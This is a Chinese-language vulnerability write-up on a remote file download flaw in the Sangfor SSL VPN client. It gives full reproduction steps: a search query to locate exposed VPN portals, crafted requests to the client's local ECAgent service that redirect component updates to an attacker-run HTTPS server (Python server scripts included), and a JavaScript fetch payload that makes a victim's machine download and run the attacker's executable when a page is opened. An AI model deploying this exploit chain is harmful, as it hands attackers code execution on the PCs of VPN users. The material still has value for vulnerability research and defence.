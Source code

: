 # 深信服-SSL-VPN-客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

## 漏洞影响

> [!NOTE]
>
> 深信服 SSL VPN

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：

![](深信服-SSL-VPN-客户端远程文件下载.assets/162736308731977.jpg)

安装完之后访问VPN的页面，发现VPN会自动下载组件更新：

![](深信服-SSL-VPN-客户端远程文件下载.assets/1627363087815479.jpg)

这些请求均为GET请求并附带着一些参数，我们把它一一列下来：

![](深信服-SSL-VPN-客户端远程文件下载.assets/16273630881373801.jpg)

本地来看一下这个`54530`端口对应的进程是什么：

![](深信服-SSL-VPN-客户端远程文件下载.assets/1627363088375076.jpg)

发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：

![](深信服-SSL-VPN-客户端远程文件下载.assets/1627363088688359.jpg)

确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。

通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。

再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：

```
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```

第一个初始化的请求存在可控参数arg1：

```
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```

参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：

```
python -m SimpleHTTPServer
```

其他的请求原封不动，依次请求一遍那一份URL

服务端成功收到请求，但是却出现了错误的提示：

![](深信服-SSL-VPN-客户端远程文件下载.assets/1627363089080373.jpg)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。

现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。

如下脚本基于Python库建立一个 HTTPS 服务：

```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：

![](深信服-SSL-VPN-客户端远程文件下载.assets/1627363089333811.jpg)

可以看见客户端会访问两个文件：

```
/com/WindowsModule.xml
/com/win/XXXUD.exe
```

先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：

```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。

最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。

依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：

```
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```

会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：

![](深信服-SSL-VPN-客户端远程文件下载.assets/16273630895578518.jpg)

Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：

```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```

其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。

![](深信服-SSL-VPN-客户端远程文件下载.assets/16273630897977788.jpg)

## 参考文章

https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg